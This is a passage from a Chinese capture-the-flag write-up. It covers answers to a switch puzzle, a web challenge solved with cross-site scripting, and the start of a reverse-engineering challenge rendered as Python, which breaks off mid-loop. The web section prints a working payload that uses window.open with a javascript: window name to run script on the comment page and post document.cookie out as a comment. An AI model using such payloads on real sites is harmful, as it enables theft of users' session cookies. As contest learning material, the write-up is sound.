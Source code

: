 综合试了一下，先开 s5、s6 启动制冷流程，然后开 s1 启动。s7 是开 meltdown 的，两个大炮塔。感觉不能开，开了就没电了。

答案是 `10001100`。

### Part 4

这个题反而不用研究逻辑处理器，而且开关是两两一组的，随便试都能出结果。

`!s1 s2` 可以让下面那个关掉，`s3 s4` 开一个下面的桥，然后再 `s7 s8 !s5 s6`。

答案是 `01110111`。

---

## 微积分计算小练习 2.0

作为 Web 苦手，被卡了很久 :(

本题的关键在于意识到留言界面可以使用 `name` 和外部交互。留言可以写 `"[location=name]+"`，然后外部通过 `window.open` 来通过指定名字打开留言界面（由于 cookie 隔离不能用 `iframe`），使用 `javascript:xxx` 这样的地址就可以在留言界面执行任意 JS 代码。

任意执行搞定了，怎么把 flag 送出来呢？当时还想了颇久，能不能改 User-Agent 然后把它输出来，或者通过错误类型侧信道，但最后发现直接 POST 留言内容就好了。

```html
<!DOCTYPE html>
<script>
  window.open(
    "http://web/result",
    "javascript:fetch(location, { method: 'POST', body: (() => { var f = new FormData(); f.append('comment', document.cookie.substr(0, 20).replaceAll('%', '|')); return f })() })",
    "popup"
  );
</script>
```

最后还有 caveat 是 `urllib.parse.quote_plus` 会把空格编码成 `+`。出题人也很好心的给出了提示。

---

## 逆向工程不需要 F5

哎哟哪个丧心病狂的人出了这题，真真无语子。也让我理解到现在的逆向工程工具的局限性有多大。如果有个什么工具能给外部的函数加上实现那么将会好做很多。

核心思想就是把函数的定义分散在了 16 个动态库里面，并且没有遵循一般的调用约定，导致 decompile 出来的东西没眼看。

结果是 Binary Ninja 盯了一下午盯了出来。记载着心路历程的分析记录就不贴上来了（记：应群里出题人要求还是 [贴出来](https://pastebin.com/4Sqhs5NP)，密码是 `inaiscute`），只贴一个最后转译出来的 Python 代码：

```python
mask = (1 << 64) - 1

flag = b'flag{qjweiojqwoiejqwoejqwoieddddddddd}'

iter = bytearray(flag[5:-1])

def toi(x):
    return int.from_bytes(x, 'little')

def tob(x, n=8):
    return x.to_bytes(n, 'little')

def x8x():
    print(' '.join(f'{toi(iter[i * 4:i * 4 + 4]):08x}' for i in range(8)))

for i in range(4):
    tmp = (i * 16) ^ 0x55aa00ff
    for j in range(2):
        t1 = tmp
        lo = toi(iter[j * 16:j * 16 + 8])
```